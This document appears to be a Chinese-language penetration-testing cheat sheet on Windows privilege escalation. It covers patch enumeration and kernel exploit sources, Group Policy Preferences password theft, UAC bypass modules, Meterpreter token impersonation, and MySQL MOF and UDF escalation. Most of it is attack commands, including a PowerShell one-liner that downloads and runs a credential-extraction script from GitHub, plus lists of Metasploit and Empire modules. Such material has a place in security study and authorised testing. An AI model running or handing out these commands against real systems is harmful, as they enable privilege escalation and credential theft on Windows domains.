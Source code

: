 chcp 65001

[参考指南](https://cloud.tencent.com/developer/article/1771226)
## 系统内核溢出提权

查找补丁

```copy
#手工查找补丁情况 
systeminfo 
Wmic qfe get Caption,Description,HotFixID,InstalledOn 
#MSF后渗透扫描 
post/windows/gather/enum_patches post/multi/recon/local_exploit_suggester 
#windows exploit suggester https://github.com/AonCyberLabs/Windows-Exploit-Suggester #powershell中的sherlock脚本 Import-Module C:\Sherlock.ps1 #下载ps1脚本，导入模块 Find-AllVulns 
#Empire内置模块 Empire框架也提供了关于内核溢出漏洞提权的漏洞利用方法 usemodule privesc/powerup/allchecks 
execute 
```
查找到缺失的补丁后，对照相应的系统版本，查找对应的exp

```copy
https://github.com/SecWiki/windows-kernel-exploits https://bugs.hacking8.com/tiquan/ https://github.com/Heptagrams/Heptagram/tree/master/Windows/Elevation 
https://www.exploit-db.com/ https://i.hacking8.com/tiquan/ ...........
```

## 系统配置错误提权

## 组策略首选项提权

简介：Windows 2008 Server引入了一项新功能：策略首选项，组策略首选项使管理员可以部署影响域中计算机/用户的特定配置，通过在组策略管理控制台中配置的组策略首选项，管理员可以推出多种策略，例如，当用户登录其计算机时自动映射网络驱动器，更新内置管理员帐户的用户名或对注册表进行更改。

##### SYSVOL：

SYSVOL是AD(活动目录)里面一个存储域公共文件服务器副本的共享文件夹，所有的认证用户都可以读取。SYSVOL包括登录脚本，组策略数据，以及其他域控所需要的域数据，这是因为SYSVOL能在所有域控里进行自动同步和共享。

所有的组策略均存储在如下位置：

```javascript
\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\
```

复制

##### 组策略偏好GPP

win2008发布了GPP(Group Policy Preferences)，其中GPP最有用的特性，是在某些场景存储和使用凭据，其中包括：映射驱动（Drives.xml）创建本地用户数据源（DataSources.xml）打印机配置（Printers.xml）创建/更新服务（Services.xml）计划任务（ScheduledTasks.xml）更改本地Administrator密码

为方便对所有机器进行操作，网络管理员会使用域策略进行统一的配置和管理，那么所有机器的本地管理员密码就是一样的，造成了即使不知道密码的情况下也能修改组策略首选项的密码，也可以通过脚本破解组策略首选项文件中密码的漏洞。

利用手法：

```javascript
#Powershell获取cpassword
Get-GPPPassword.ps1

#PowerSploit 的 Get-GPPPassword模块 检索通过组策略首选项推送的帐户的明文密码和其他信息。
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1');Get-GPPPassword"Import-Module .\Get-GPPPassword.ps1;Get-GPPPassword
kali gpp-decrypt命令破解密码

#Msf
run post/windows/gather/credentials/gpp

#Empire
usemodule privesc/gpp
```

## Byass UAC 提权



```copy
#Msf 
exploit/windows/local/ask #弹出UAC确认窗口，点击后获得system权限 exploit/windows/local/bypassuac #此模块将通过进程注入使用可信任发布者证书绕过Windows UAC，它将生成关闭UAC标志的第二个shell。 exploit/windows/local/bypassuac_injection #此模块将通过进程注入使用可信任的发布者证书绕过Windows UAC。它将生成关闭UAC标志的第二个shell。在普通技术中，该模块使用反射式DLL注入技术并只除去了DLL payload 二进制文件，而不是三个单独的二进制文件。但是，它需要选择正确的体系架构（对于SYSWOW64系统也使用x64）。如果指定exe::custom，应在单独的进程中启动 payload 后调用ExitProcess（） 
exploit/windows/local/bypassuac_fodhelper#此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows fodhelper.exe应用程序时调用的自定义命令来绕过Windows 10 UAC。它将生成关闭UAC标志的第二个shell。此模块修改注册表项，但在调用payload后将清除该项。该模块不需要payload的体系架构和操作系统匹配。如果指定exe:custom，则应在单独的进程中启动payload后调用ExitProcess（）。 exploit/windows/local/bypassuac_eventvwr#此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows事件查看器时调用的自定义命令来绕过Windows UAC。它将生成关闭UAC标志的第二个shell。此模块修改注册表项，但在调用payload后将清除该项。该模块不需要payload的体系架构和操作系统匹配。如果指定EXE ::Custom，则应在单独的进程中启动payload后调用ExitProcess（） 
exploit/windows/local/bypassuac_comhijack#此模块将通过在hkcu配置单元中创建COM处理程序注册表项来绕过Windows UAC。当加载某些较高完整性级别进程时，会引用这些注册表项，从而导致进程加载用户控制的DLL,这些DLL包含导致会话权限提升的payload。此模块修改注册表项，但在调用payload后将清除该项,这个模块需要payload的体系架构和操作系统匹配，但是当前的低权限meterpreter会话体系架构中可能不同。如果指定exe:：custom，则应在单独的进程中启动payloa后调用ExitProcess（）。此模块通过目标上的cmd.exe调用目标二进制文件,因此，如果cmd.exe访问受到限制，此模块将无法正常运行。 #Powershell 
Invoke-PsUACme 
#Empire 
usemodule privesc/bypassuac 
usemodule privesc/bypassuac_wscript 
#cs 
uac-dll 
uac-token-duplication ....
```

## 令牌窃取

MSF
在获取到 Meterpreter Shell 后，使用以下命令获取令牌
```copy
load incognito
list_tokens -u
```
这里有两种令牌，一个是 Delegation Tokens 即授权令牌，还有一种是 Impersonation Tokens 即模拟令牌。前者支持交互式登录比如远程桌面，后者支持非交互的会话。

令牌获取的数量取决于获取到 Shell 的权限等级。

如果已经获取到了 SYSTEM 权限的令牌，那么攻击者就可以伪造这个令牌，拥有对应的权限。
```copy
impersonate_token "NT AUTHORITY\SYSTEM"
```

Rotten Potato 本地提权




## 数据库提权

### MOF提权
简介：MOF文件是mysql数据库的扩展文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做”托管对象格式”，其作用是每隔五秒就会去监控进程创建和死亡，因为MOF文件每五秒就会执行，且是系统权限，所以如果我们有权限替换原有的mof文件，就能获得system权限

### UDF提权
简介：UDF,user defined funcion,即用户自定义函数，用户可以通过自己增加函数对mysql功能进行扩充，文件后缀为.dll。